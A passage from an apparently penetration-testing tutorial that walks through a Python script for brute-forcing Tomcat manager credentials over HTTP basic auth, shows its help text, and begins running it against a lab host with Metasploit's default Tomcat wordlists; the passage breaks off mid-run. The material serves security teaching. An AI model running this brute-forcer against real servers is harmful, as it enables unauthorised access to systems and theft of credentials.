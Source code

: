args = parser.parse_args()

url = args.url
uri = args.path
users_file = args.usernames
passwords_file = args.passwords

new_url = url + uri
f_users = open(users_file, "rb")
f_pass = open(passwords_file, "rb")
usernames = [x.strip() for x in f_users]
passwords = [x.strip() for x in f_pass]

cprint("\n[+] Atacking.....", "red", attrs = ['bold'])

for u in usernames:
    for p in passwords:
        r = requests.get(new_url,auth = (u, p))

        if r.status_code == 200:
            cprint("\n[+] Success!!", "green", attrs = ['bold'])
            cprint("[+] Username : {}\n[+] Password : {}".format(u,p), "green", attrs = ['bold'])
            break
    if r.status_code == 200:
        break

if r.status_code != 200:
    cprint("\n[+] Failed!!", "red", attrs = ['bold'])
    cprint("[+] Could not Find the creds :( ", "red", attrs = ['bold'])
#print r.status_code
</code></pre>
<p>This is a very straightforward script that takes a few arguments. We can run the script with <code>-h</code> to see what it requires to run.</p>
<pre><code class="language-shell-session">[!bash!]$ python3 mgr_brute.py  -h

usage: mgr_brute.py [-h] -U URL -P PATH -u USERNAMES -p PASSWORDS

Tomcat manager or host-manager credential bruteforcing

optional arguments:
  -h, --help            show this help message and exit
  -U URL, --url URL     URL to tomcat page
  -P PATH, --path PATH  manager or host-manager URI
  -u USERNAMES, --usernames USERNAMES
                        Users File
  -p PASSWORDS, --passwords PASSWORDS
                        Passwords Files
</code></pre>
<p>We can try out the script with the default Tomcat users and passwords file that the above Metasploit module uses. We run it and get a hit!</p>
<pre><code class="language-shell-session">[!bash!]$ python3 mgr_brute.py -U http://web01.inlanefreight.local:8180/ -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt

[+] Atacking.....
